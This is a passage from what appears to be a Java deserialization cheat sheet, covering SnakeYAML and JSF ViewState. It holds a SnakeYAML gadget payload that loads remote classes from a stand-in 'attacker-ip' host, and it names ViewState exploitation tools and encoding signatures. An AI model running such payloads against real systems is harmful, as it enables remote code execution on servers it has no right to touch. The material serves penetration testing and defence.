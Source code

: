 

## YAML Deserialization

SnakeYAML is a popular Java-based library used for parsing and emitting YAML (YAML Ain't Markup Language) data. It provides an easy-to-use API for working with YAML, a human-readable data serialization standard commonly used for configuration files and data exchange.

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-ip/"]
  ]]
]
```


## ViewState

In Java, ViewState refers to the mechanism used by frameworks like JavaServer Faces (JSF) to maintain the state of UI components between HTTP requests in web applications. There are 2 major implementations:

* Oracle Mojarra (JSF reference implementation)
* Apache MyFaces

**Tools**:

* [joaomatosf/jexboss](https://github.com/joaomatosf/jexboss) - JexBoss: Jboss (and Java Deserialization Vulnerabilities) verify and EXploitation Tool
* [Synacktiv-contrib/inyourface](https://github.com/Synacktiv-contrib/inyourface) - InYourFace is a software used to patch unencrypted and unsigned JSF ViewStates.


### Encoding

| Encoding      | Starts with |
| ------------- | ----------- |
| base64        | `rO0`       |
| base64 + gzip | `H4sIAAA`   |


### Storage

The `javax.faces.STATE_SAVING_METHOD` is a configuration parameter in JavaServer Faces (JSF). It specifies how the framework should save the state of a component tree (the structure and data of UI components on a page) between HTTP requests.

The storage method can also be inferred from the viewstate representation in the HTML body.

* **Server side** storage: `value="-XXX:-XXXX"`
* **Client side** storage: `base64 + gzip + Java Object`


### Encryption
